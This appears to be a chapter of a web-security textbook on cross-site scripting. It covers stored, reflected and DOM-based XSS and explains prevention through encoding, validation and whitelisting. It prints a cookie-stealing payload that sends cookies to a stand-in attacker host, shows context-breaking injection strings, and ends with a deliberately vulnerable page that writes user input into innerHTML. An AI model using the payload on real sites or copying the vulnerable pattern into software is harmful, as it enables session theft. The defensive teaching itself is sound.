\section{XSS}
The objective of a XSS attack is to inject malicious js into the victim's page. The attacker uses vulnerabilities in the web application, not the web browser, to store this malicious scripts in the server, so that when the victim visits the webpage the js executes without the user's interaction. Malicious js can be very dangerous, as it can steal unprotected cookies, make requests in the user's behalf and modify the page's html to create phishing attacks, between many others. If an attacker can use the web app to execute js in another user's browser, the security of the site and it's users is severely compromised.
\subsection{Types of XSS}
\subsubsection{Persistent XSS}
In this attack, the malicious js is stored in the DB. The attacker can upload this js disguised in a comment of a post, a form, etc. The web app saves this code in the DB, and when the page is solicited by another user the code is inserted in the html unknowingly by the application.
\begin{figure}[htb]
	\begin{centering}
		
\includegraphics[width=0.7\columnwidth]{\securitydir/WebSec/figures/persistent-xss}
		\par\end{centering}
	\caption{\label{fig:ecb} Diagram of a stored XSS exploit.}
\end{figure}

\subsubsection{Reflected XSS}
The attacker needs to craft a malicious URL with js in it as a parameter. This is usually exploited passing a URL with a search query with the js as the paramater to search. The attacker then tricks the victim to open the link, generating a GET request and returning HTML page with the query inserted in it. https://excess-xss.com/reflected-xss.png
\begin{figure}[htb]
	\begin{centering}
		
\includegraphics[width=0.7\columnwidth]{\securitydir/WebSec/figures/reflected-xss}
		\par\end{centering}
	\caption{\label{fig:reflexted-xss} Diagram of a reflected XSS exploit.}
\end{figure}

\subsubsection{DOM-based XSS}
DOM-based attacks can be a variant of the attacks mentioned earlier, with a subtle but important difference. The malicious js is inserted in the DOM by the js of the web application itself, and not by the server. This means that the front-end of the web app is also vulnerable to this kinds of exploits. This also means that the malicious js can come from other sources that are not visible to the server, like local storage, Indexed DB and in a URL's fragment identifier. Another thing to mind is that the malicious js can be executed later, and not always when the page is loaded.	
% TODO: figure explaining DOM-based XSS


\subsection{Attacks using XSS}
Once the attacker finds a vulnerability has several ways to exploit it. Knowing the diverse ways a XSS can be used is useful to prevent it.

\subsubsection{Session hijacking attack}
The goal of this attack is to steal the session cookies to impersonate the user. A payload like this can send the cookies to a remote server controlled by the attacker passing the cookies as a parameter.

\verb|<script>document.InnerHTML += "<img src='http://attackersite.com/?cookie="+ document.cookie + "/'>" </script>|

This attack can be easily countered by setting the session cookies with the flag HTTPOnly, that we explained earlier in the cookies chapter.

\subsubsection{Phishing attack}
This attack overwrites the HTML of the website to trick the user into sending login credentials to the attacker. For example the payload can modify a form to submit the contents to a malicious server, or even modify the current page to make it look like the login page.

\subsubsection{Others}
JavaScript can interact with a lot of parts of the browser, and this makes XSS exploits very powerful. The attacker imagination is the limit but we can name a few more ways to exploit a XSS.
\begin{itemize}
	\item Redirect the victim to another URL.
	\item Modify the page with fake information.
	\item Recollect user information.
	\item Find browser version to send a targeted exploit.
\end{itemize}

\subsection{XSS Prevention}
To prevent a XSS, the most useful tool is to secure all the input received from the user. This can be done in two ways.
\begin{itemize}
	\item\textbf{Encoding} Escapes the inputs so the browser does not interpret it as code
	\item\textbf{Validation} Detects and removes the malicious code from the inputs
\end{itemize}
Before going deeper in this methods, it's important to know the factors that affect how each vulnerability is protected.
\begin{itemize}
	\item \textbf{Context:} Secure input handling needs to be performed differently depending on where in a page the user input is inserted.
	\item \textbf{Inbound/outbound:} Secure input handling can be performed either when your website receives the input (inbound) or right before your website inserts the input into a page (outbound).
	\item \textbf{Back-end/Front-end:} Most XSS protections are done in the back-end, but it's important to remember that DOM-based XSS happens exclusively in the front-end.
\end{itemize}

\subsubsection{Input handling contexts}
In every web application there are many places where malicious js can be inserted. It's important to know how each context works, as the attacker wants to find a way of breaking it.

\begin{table}[]
	\centering
	\caption{Inpuy contexts in a web application}
	\label{my-label}
	\begin{tabular}{|l|l|}
		\hline
		\multicolumn{1}{|c|}{\textbf{Context}} & \multicolumn{1}{c|}{\textbf{Example code}}                         \\ \hline
	%	HTML element content                   & \textless{}div\textgreater{}userInput\textless{}/div\textgreater{} \\ \hline
		HTML element content                   & \textless{}div\textgreater{}userInput\textless{}/div\textgreater{} \\ \hline
		HTML attribute value                   & \textless{}input value="userInput"\textgreater{}                   \\ \hline
		URL query value                        & http://example.com/?parameter=userInput                            \\ \hline
		CSS value                              & color: userInput                                                   \\ \hline
		JavaScript value                       & var name = "userInput";                                            \\ \hline
	\end{tabular}
\end{table}

For example, if we had a HTML element input  and we want to break context, we could insert something like \verb|</div><script>...</script><div>| so the resulting HTML would be valid (\verb|<div></div><script>...</script><div></div>|). The closing division tag lets us insert whatever we want inside, so the obvious thing to do in order to protect the input would be to ban them. In another case \verb|<input value="userInput">|, that would not work because the browser will parse everything that gets between quotes as a text. In this case, the approach to attacking is closing the value field, and then insert the payload (\verb|"><script>...</script><input value="|). It's important to know in wich context we are so it is correctly protected.

\subsubsection{Inbound/Outbound}
The input sanitation can be done when the data arrives at the application, or when it is sent to the browser. As we've seen, depending on the input context the validation and/or encoding has to be done differently. When the input arrives at the application we don't know in which context is going to be inserted, so protections can't be applied efficiently.

\subsubsection{Encoding}
Encoding consists of escaping the input received so the browser does not interpret it as code to be executed. In a HTML environment typically we will encode the characters \textbf{<, >} into \textbf{\&lt; and \&gt;}. If we tried to insert a code like \verb|<script> ... </script>| it would become \verb|&lt;script&gt;...&lt;/script&gt;| thus rendering it inofensive. When the browser finds this translates the encoded characters and then displays them, but without executing it.

Encoding can be done on the back-end by using the methods of the chosen programing language. In the front-end we will be using js and it's built-in methods to encode properly in each context.

\begin{table}[]
	\centering
	\caption{Inpuy contexts in a web application}
	\label{my-label}
	\begin{tabular}{|l|l|}
		\hline
		\multicolumn{1}{|c|}{\textbf{Context}} & \multicolumn{1}{c|}{\textbf{Method}}                           \\ \hline
		HTML element content                   & node.textContent = userInput 									\\ \hline
		HTML attribute value                   & element.setAttribute(attribute, userInput)                   	\\ \hline
		URL query value                        & window.encodeURIComponent(userInput)                           \\ \hline
		CSS value                              & element.style.property = userInput                             \\ \hline
	\end{tabular}
\end{table}

However, encoding is not perfect. Sometimes we may want to allow some html in the user input (a forum where the users can apply format to the posts for example) and if we encode everything, it would be displayed as plain text and wouldn't work. Also sometimes encoding can't protect the application from other attacks, like inserting a valid URL beginning in "javascript:" + javascript function. This is a valid URL that tells the browser that the following has to be interpreted using js. As you can see, this is a attack vector to insert malicious js, but because we don't use html tags, the encoding can't protect it.

\subsubsection{Validation}
Validation consists in removing the malicious parts of a user input. If we are validating an input that has some html tags, we can allow those that are inoffensive like <p>, but filtering others like <script>.

When it comes to classification of the input, it is recommended to apply a whitelist approach. White listing consists of having a list of allowed patterns, and everything else that is not found in the white list gets flagged as malicious. This is much more secure than blacklisting, because there are many variations of a simple exploit and we should blacklist all of them to be safe. Also, as technologies evolve, our blacklist may be outdated every time a new version of html or js is released. 

When a user input has been analyzed, we have two different approaches.

\begin{itemize}
\item Rejection: If any of the input has been flagged as potentially malicious or not found in our white list, the easiest approach is to clear the input completely. This is also very easy to implement at software level. 

\item Sanitation: Only the invalid parts of the input are removed. For example if we have a HTML formatted text, the allowed tags such as <h1>, <p>, etc ...  remain, but the tag <script> and all its contents are removed.
\end{itemize}

%% practs
Imagine we have the following application. The most intuitive thing would be to attempt a DOM based XSS. To do this we would insert a <script> ... </script> attack
\begin{lstlisting}[style=JavaScript]
<!DOCTYPE html>
<html>
<body>

<form id="myForm">
Link to insert: <input type="text"><br>
</form> 
<button onclick="myFunction()">Insert link</button>
<a href="https://example.com/">Check this link</a>
<p id="output">This links to https://example.com/</p>

<script>
function myFunction() {
	var x = document.getElementById("myForm").elements[0].value;
	document.querySelector('a').href = x;
	document.getElementById("output").innerHTML = "This links to:" + x;
}
</script>

</body>
</html>

\end{lstlisting}



